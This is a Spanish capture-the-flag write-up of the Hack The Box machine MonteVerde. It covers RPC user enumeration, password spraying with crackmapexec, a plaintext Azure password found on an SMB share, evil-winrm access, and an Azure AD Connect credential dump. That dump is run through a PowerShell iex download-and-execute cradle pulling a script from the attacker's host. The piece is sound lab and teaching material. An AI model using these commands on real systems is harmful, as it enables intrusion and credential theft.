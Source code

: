 ```yaml
---
layout: post
title: MonteVerde
date: 2022-11-18
categories: ["HTB", "RPC", "SMB", "Azure"]
thumbnail: "assets/images/MonteVerde.png"
---
```


# MonteVerde [ Hack The Box ]

### Reconocimiento

#### Descubrimiento de puertos y reconocimiento básico
- `nmap -sS --min-rate 5000 10.10.10.172 -oG allPorts`
- `nmap -sCV -p[...],139,389,445,[...],5985,[...] 10.10.10.172 -oN targeted`

Vemos que está el puerto `5985` abierto, pertenece a `WinRM`, pero no tenemos credenciales.

### RPC

Como vemos no hay ningún puerto de servidor web, así que nos tenemos que apañar con l que tenemos, en este caso vemos el puerto `139` abierto, pero cuando tratamos de listar el contenido nos deniega el acceso.

Como tampoco podemos listar el puerto `445` vamos a tratar de conseguir una sesión `RPC` sin credenciales, así que hacemos lo siguiente:

- `rpcclient -U "" -N 10.10.10.172`

Bien! Vemos que obtenemos una conexión! Vamos a desplegar información con el comando
`querydispinfo`. Vemos muchos números, pero también varios nombres de usuario con su respectivo nombre.

```
[...] Account: AAD_987d7f2f57d2 [...]
[...] Account: dgalanos [...]
[...] Account: Guest [...]
[...] Account: mhope [...]
[...] Account: roleary [...]
[...] Account: SABatchJobs [...]
[...] Account: smorgan [...]
[...] Account: svc-ata [...]
[...] Account: svc-bexec [...]
[...] Account: svc-netapp [...]
```

Vamos a copiar todos los nombres de usuario en un archivo, en mi caso llamado `users`. Una vez tenemos el archivo podemos utilizar `CrackMapEXEC` para hacer fuerza bruta. Como sólo tenemos los nombres de usuario y queremos probar algo rápido antes que algo exhaustivo vamos a probar utilizando el nombre de usuario como contraseña.

- `crackmapexec smb 10.10.10.172 -u users -p users --continue-on-success`

```
[...]
SMB 10.10.10.172 445 MONTEVERDE [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs
[...]
```

Bien! Hemos obtenido la contraseña de `SABatchJobs` (`SABatchJobs:SABatchJobs`) para `SMB`!

### Shell

Bien, como ya disponemos de credenciales válidas vamos a listar de nuevo `SMB`, pero utilizando las credenciales encontradas. En mi caso utilizaré `SMBMap` ya que directamente me dice qué directorios puedo leer, modificar o no tener acceso.

- `smbmap -H 10.10.10.172 -u SABatchJobs -p SABatchJob`

```
[+] IP: 10.10.10.172:445 Name: 10.10.10.
Disk            Permissions       Comment
----            -----------       -------
ADMIN$          NO ACCESS         Remote Admin
azure_uploads   READ ONLY
C$              NO ACCESS         Default share
E$              NO ACCESS         Default share
PC$             READ ONLY         Remote IPC
NETLOGON        READ ONLY         Logon server share
SYSVOL          READ ONLY         Logon server share
users$          READ ONLY
```

Vemos un directorio que nos llama la atención llamado `users$` el cual podemos leer, vamos a ver qué tiene.

- `smbclient -U SABatchJobs //10.10.10.172/users$ SABatchJobs`

```
smb> get mhope/azure.xml
```

Bien! Tenemos un archivo XML! Vamos a ver qué contiene!

```
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
<Obj RefId="0">
<TN RefId="0">
<T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
<T>System.Object</T>
</TN>

<ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
<Props>
<DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
<DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
<G N="KeyId">00000000-0000-0000-0000-000000000000</G>
<S N="Password">4n0therD4y@n0th3r$</S>
</Props>
</Obj>
</Objs>
```

Wow! Vemos la contraseña de Azure en texto claro! Ahora para acceder y obtener una Shell vamos a utilizar `WinRM` ya que vimos que el puerto `5985` está abierto.

- `evil-winrm -i 10.10.10.172 -u mhope -p '4n0therD4y@n0th3r$'`

```
Info: Starting Evil-WinRM shell v1.

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\mhope\Documents>

```

Bien! Ya estamos en la máquina como `mhope`!

### Subida de privilegios

Ahora que ya estamos en la máquina tenemos que tratar de ser administradores, así que
comenzé por enumeración básica, por lo que miraré en los grupos que se encuentra `mhope`.

```
*Evil-WinRM* PS C:\> net user mhope
User name                    mhope
Full Name                    Mike Hope
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/2/2020 3:40:05 PM
Password expires             Never
Password changeable          1/3/2020 3:40:05 PM
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script                 
User profile                 
Home directory               \\monteverde\users$\mhope
Last logon                   1/18/2020 11:05:46 AM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *Azure Admins         *Domain Users         
The command completed successfully.
```

Vemos que se encuentra en el grupo `Azure Admins`, así que después de estar mirando un poco llegué al directorio `C:\Program Files`, donde vemos varias carpetas con el nombre de `Azure`, con `*` podemos filtrar por la cadena que queramos.

```
*Evil-WinRM* PS C:\Program Files> ls *Azure*

    Directory: C:\Program Files

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         1/2/2020   2:51 PM                Microsoft Azure Active Directory Connect
d-----         1/2/2020   3:37 PM                Microsoft Azure Active Directory Connect Upgrader
d-----         1/2/2020   3:02 PM                Microsoft Azure AD Connect Health Sync Agent
d-----         1/2/2020   2:53 PM                Microsoft Azure AD Sync
```

Investigando un poco llegamos a un artículo de [`XPN`](https://blog.xpnsec.com/azuread-connect-for-redteam/). El artículo habla de cómo
explotar `Azure Connect`.

Vemos que `mhope` es capaz de conectarse a la base de datos local (ya que es administrador) y extraer la configuración, después de eso podemos decodearlo y obtener el nombre de usuario y contraseña en texto claro de la cuenta que ha manejado la réplica.

Traté de utilizar el `script` del artículo, pero tenemos que cambiar la variable `client` para hacer que conecte con la `DB`.

```
$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=127.0.0.1;Database=ADSync;Integrated Security=True"
```

Una vez tenemos todo listo podemos montarnos un servidor en Python para pasarle el
archivo PS1 y hacer que lo corra, para eso haremos lo siguiente:

- `python3 -m http.server 80`

```
*Evil-WinRM* PS C:\Program Files> iex(new-object net.webclient).downloadstring('http://10.10.14.11/Get-MSOLCredentials.ps1')
Domain: MEGABANK.LOCAL
Username: administrator
Password: d0m@in4dminyeah!
```
Bien! Ya tenemos la contraseña de `administrator` (`administrator:d0m@in4dminyeah!`)! Ahora podemos hacer como antes y con `Evil-WinRM` conectarnos como `administrator`.

Enhorabuena! Ya somos administradores de la máquina!
